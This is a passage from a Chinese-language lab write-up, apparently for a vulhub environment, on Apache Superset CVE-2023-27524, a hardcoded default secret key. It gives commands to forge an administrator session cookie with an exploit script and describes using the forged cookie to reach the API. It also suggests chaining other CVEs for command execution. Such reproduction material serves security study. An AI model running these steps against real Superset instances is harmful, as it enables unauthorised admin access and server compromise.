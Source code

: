 在本漏洞环境中，默认值被设置为版本 >= 1.4.1 的默认值 `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`。我们使用 [CVE-2023-27524.py](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-27524/CVE-2023-27524.py) 伪造管理员（用户 id 为 1）会话 Cookie：

```shell
# Install dependencies
pip install flask-unsign==1.2.0

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

该脚本尝试使用已知的默认密钥破解会话 Cookie。如果成功，它将伪造一个新的会话 Cookie，其中 user_id=1（通常是管理员用户），并验证登录。

![](images/Apache%20Superset%20硬编码%20JWT%20密钥导致认证绕过漏洞%20CVE-2023-27524/image-20250331135246818.png)

将这个伪造的 JWT 令牌添加到 Cookie 值中，如 `Cookie: session=eyJ...`，即可访问 Superset 的后端 API：

![](images/Apache%20Superset%20硬编码%20JWT%20密钥导致认证绕过漏洞%20CVE-2023-27524/image-20250331140136960.png)

> 更进一步利用，在后台配置允许执行其他数据库语句，配合 PostgreSQL CVE-2019-9193 执行任意命令，或配合 CVE-2023-37941 反序列化漏洞执行任意代码。

## 漏洞 POC
